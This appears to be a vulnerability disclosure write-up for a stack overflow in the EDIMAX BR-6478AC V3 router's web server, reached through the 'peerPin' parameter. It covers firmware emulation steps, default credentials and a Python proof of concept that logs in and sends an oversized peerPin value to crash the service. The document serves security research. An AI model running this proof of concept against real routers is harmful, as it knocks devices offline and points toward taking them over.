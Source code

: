 # EDIMAX RCE
**description**: 
a stack overflow vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0044a70c function and peerPin in /bin/boa


## Firmware
**brand**:edimax 

**product**:AC1200 Wave 2 Dual-Band Gigabit Router 

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](img/login.png)

using ghidra we can know the action is formWsc
![alt text](img/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/wlwps.htm:
![alt text](img/url.png)


## analyze
Using ghidra we can know that the post parameter "peerPin" will be sprintf as the second input parameter and result the stack overflow
![](img/code_line.png)
![alt text](img/code_line2.png)
The details of the function as follows:

**addr**:0044afd0
**function**: FUN_0044a70c
**parameter**:peerPin


# poc
the poc code as follow,
```
import requests

data={
	'username':'admin',
	'password':1234
}

url='http://192.168.2.1/boafrm/formWsc'
url_login='http://192.168.2.1/boafrm/formLoginSetup'
url_page='http://192.168.2.1/wlwps.htm'

res=requests.post(url=url_login,data=data)
print(res.text)
cookies = res.cookies
print(cookies)
res2=requests.get(url=url_page,cookies=cookies)
print(res2)

data2={
	'submit-url':'%2Fwlwps.htm',
	'save_apply':'Save+%26+Apply',
	'resetUnCfg':'0',
	'targetAPMac':'',
	'targetAPSsid':'',
	'configVxd':'off',
	'resetRptUnCfg':'0',
	'peerRptPin':'',
	'setPIN':'123',
	'peerPin':'8'*400

}

res3=requests.post(url=url,cookies=cookies,data=data2)
print(res3.text)

```
the result of POC is as follows,can find the segmentation fault
![alt text](img/stack_overflow.png)
![](img/after_attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
